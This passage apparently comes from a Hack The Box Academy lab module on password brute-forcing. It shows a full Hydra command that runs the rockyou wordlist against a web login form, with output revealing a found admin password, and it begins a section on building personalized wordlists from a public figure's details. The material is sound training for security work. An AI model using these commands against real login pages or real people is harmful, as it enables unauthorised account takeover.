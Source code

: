 As we can see, we were not able to identify any working credentials. Still, this only took a few seconds, and we ruled out the use of default passwords. Now, we can move on to use a password wordlist.

* * *

## Password Wordlist

Since the brute force attack failed using default credentials, we can try to brute force the web application form with a specified user. Often usernames such as `admin`, `administrator`, `wpadmin`, `root`, `adm`, and similar are used in administration panels and are rarely changed. Knowing this fact allows us to limit the number of possible usernames. The most common username administrators use is `admin`. In this case, we specify this username for our next attempt to get access to the admin panel.

```shell
hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'

[PORT][http-post-form] host: 178.35.49.134   login: admin   password: password123
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)

```

We can try to log in with these credentials now:
![](https://academy.hackthebox.com/storage/modules/57/bruteforcing_logged_in_1.jpg)


# Personalized Wordlists

* * *

To create a personalized wordlist for the user, we will need to collect some information about them. As our example here is a known public figure, we can check out their [Wikipedia page](https://en.wikipedia.org/wiki/Bill_Gates) or do a basic Google search to gather the necessary information. Even if this was not a known figure, we can still carry out the same attack and create a personalized wordlist for them. All we need to do is gather some information about them, which is discussed in detail in the [Hashcat](https://academy.hackthebox.com/module/details/20) module, so feel free to check it out.
